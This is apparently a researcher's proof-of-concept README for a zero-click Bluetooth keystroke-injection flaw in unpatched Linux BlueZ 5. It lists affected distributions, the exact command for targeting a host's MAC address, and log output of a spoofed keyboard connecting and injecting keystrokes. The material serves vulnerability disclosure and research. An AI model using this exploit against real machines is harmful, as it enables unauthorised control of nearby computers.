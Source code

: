 ```
[2024-01-07 11:03:05.259]  [TX-19] a10100002b000000000000
[2024-01-07 11:03:05.264]  [TX-19] a101000000000000000000
[2024-01-07 11:03:05.318]  [TX-19] a10100002b000000000000
[2024-01-07 11:03:05.323]  [TX-19] a101000000000000000000
[2024-01-07 11:03:05.377]  [TX-19] a10100002b000000000000
[2024-01-07 11:03:05.382]  [TX-19] a101000000000000000000
[2024-01-07 11:03:05.436]  [TX-19] a10100002b000000000000
...
[2024-01-07 11:03:15.261]  [TX-19] a101000000000000000000
[2024-01-07 11:03:15.319]  payload has been transmitted; disconnecting Bluetooth HID client
[2024-01-07 11:03:15.321]  taking 'hci1' offline
```

### Linux Keystroke Injection

Linux hosts running BlueZ 5 are vulnerable prior to patches rolling out in approximately December 2023. Specific version numbers depend on the Linux distribution.

When an unpatched Linux host is discoverable and connectable over Bluetooth, an attacker can pair an emulated Bluetooth keyboard and inject keystrokes, without user confirmation. This is a zero-click attack that works whenever the host is discoverable and connectable.

#### Affected Versions

This vulnerability is understood to affect unpatched Linux distributions using the default configuration of BlueZ 5.

Google states that ChromeOS was not affected by this vulnerability, and while ChromeOS was not tested as part of this research, their BlueZ configuration does appear to prevent the attack.

Affected distributions include Ubuntu, Debian, Gentoo, Arch, Fedora, Red Hat, Yocto, and Amazon Linux. Multiple releases may be affected, and Ubuntu, for instance, patched 16.04, 18.04, 20.04, 22.04, 23.04 and 23.10.

#### Starting State

- The target Linux host is discoverable and connectable over Bluetooth.
- Linux hosts are commonly discoverable and connectable when the Bluetooth settings panel is open.

#### Running the PoC

Run the PoC targeting Linux host `58:28:39:E6:AE:1C` using interface `hci1`.

```
./keystroke-injection-android-linux.py -i hci1 -t 58:28:39:E6:AE:1C
```

If successful, the PoC will inject a payload of `tab` keystrokes for 10 seconds.

#### Example Output

```
> ./keystroke-injection-android-linux.py -i hci1 -t 58:28:39:E6:AE:1C
[2024-01-07 11:00:08.955]  executing 'sudo service bluetooth restart'
[2024-01-07 11:00:09.586]  configuring Bluetooth adapter
[2024-01-07 11:00:09.590]  calling RegisterProfile
[2024-01-07 11:00:09.595]  running dbus loop
[2024-01-07 11:00:09.725]  executing 'sudo hciconfig hci1 name Hi, My Name is Keyboard'
[2024-01-07 11:00:09.738]  executing 'hciconfig hci1 name'
[2024-01-07 11:00:09.759]  executing 'sudo hciconfig hci1 class 0x002540'
[2024-01-07 11:00:09.771]  executing 'hciconfig hci1 class'
[2024-01-07 11:00:09.774]  executing 'hcitool name 58:28:39:E6:AE:1C'
[2024-01-07 11:00:10.399]  connecting to SDP
[2024-01-07 11:00:10.400]  connecting to 58:28:39:E6:AE:1C on port 1
[2024-01-07 11:00:12.984]  SUCCESS! connected on port 1
[2024-01-07 11:00:12.984]  executing 'sudo btmgmt --index hci1 io-cap 1'
[2024-01-07 11:00:12.992]  executing 'sudo btmgmt --index hci1 ssp 1'
[2024-01-07 11:00:13.001]  connected to SDP (L2CAP 1) on target
```
